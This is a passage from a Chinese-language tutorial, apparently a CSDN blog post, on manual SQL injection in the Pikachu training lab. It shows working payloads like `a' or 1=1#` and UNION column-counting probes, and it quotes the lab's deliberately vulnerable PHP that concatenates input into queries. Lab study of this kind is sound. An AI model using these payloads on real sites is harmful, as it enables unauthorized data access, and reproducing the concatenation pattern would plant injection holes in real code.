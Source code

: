```sql
select 字段1，字段2 from 表名 where username = '111';
```
后台接收应该是：`$uname=$_GET['username']`
（其实这部分我看不懂，都是复制粘贴的）
与xss一样，我们要去构造合法闭合，前面的单引号我们也以单引号闭合，后面的单引号我们用#注释掉，所以我们输入的代码为`a' or 1=1#`
提交后发现所有的数据都列了出来：![请添加图片描述](https://img-blog.csdnimg.cn/7a7467b7d3584b9db2afd0f586fe4463.jpeg)
### 4x03 搜索型注入
1. 我们尝试输入a进行搜索，发现请在在url里发送，且返回了所有带a的用户![请添加图片描述](https://img-blog.csdnimg.cn/17e6e364a87148d8a6b6871c3c383f98.jpeg)
2. 由于提示为%%，所以我们猜测

```sql
select from 表名 where username like ' %k% ';
 ```
 我们依旧是尝试去构造闭合：
我们输入`abc%'or 1=1 #`，用%’去与前面的%‘构造闭合，而后面的内容用#注释掉
此时完整语句为：
```sql
select from 表名 where username like ' %abc%'or 1=1 #% ';
```
输入后发现所有数据都被列出![请添加图片描述](https://img-blog.csdnimg.cn/613822825e2f4ac3817a055608b1c92c.jpeg)
由此发现，关键在于猜测后台是如何进行拼接的并尝试去构造闭合。
### 4x04 xx型注入
1. 我们进入后端，访问\WWW\pikachu\vul\sqli\sqli_x.php，其中代码如下：

```php
if(isset($_GET['submit']) && $_GET['name']!=null){
    //这里没有做任何处理，直接拼到select里面去了
    $name=$_GET['name'];
    //这里的变量是字符型，需要考虑闭合
    $query="select id,email from member where username=('$name')";
    $result=execute($link, $query);
    if(mysqli_num_rows($result)>=1){
        while($data=mysqli_fetch_assoc($result)){
            $id=$data['id'];
            $email=$data['email'];
            $html.="<p class='notice'>your uid:{$id} <br />your email is: {$email}</p>";
        }
    }else{

        $html.="<p class='notice'>您输入的username不存在，请重新输入！</p>";
    }
}
```
所以我们还是尝试去构造闭合，后端为

```sql
select id,email from member where username=('$name')
```
我们应该输入`a') or 1=1 #`
![请添加图片描述](https://img-blog.csdnimg.cn/680891fe521e4b709cf50b3af1d3b227.jpeg)
成功返回了所有数据。
### 4x05 SQL Injec漏洞手工测试：基于unionl联合查询的信息获取
union联合查询：可以通过联合查询来查询指定的数据。需要注意的是**联合查询的字段数必须和主查询一致！！**
用法：`select username,password from user where id=1 union select 字段1 ,字段2 from 表名`
1. 我们先登录并进入pikachu数据库
![请添加图片描述](https://img-blog.csdnimg.cn/0d151066e22443c3bfd66881b7d369e4.jpeg)
2. 主查询字段2个（id,email） 联合查询字段三个（username,pw,sex）将会报错，我们输入`select id, email from member where username-'kobe' union select username, pw, sex from member where id = 1;`结果如下：
![请添加图片描述](https://img-blog.csdnimg.cn/124fdd658081423bbdc97c21e3c92dee.jpeg)
3. 我们尝试去猜测字段数，我们用`x' union select 1,2,3#`，此处的1 2 3表示字段，此时仍会报错，我们尝试`x' union select 1,2#`，发现没有报错，说明字段数为2。![请添加图片描述](https://img-blog.csdnimg.cn/f88879b7a602466fb752b16b9e714b44.jpeg)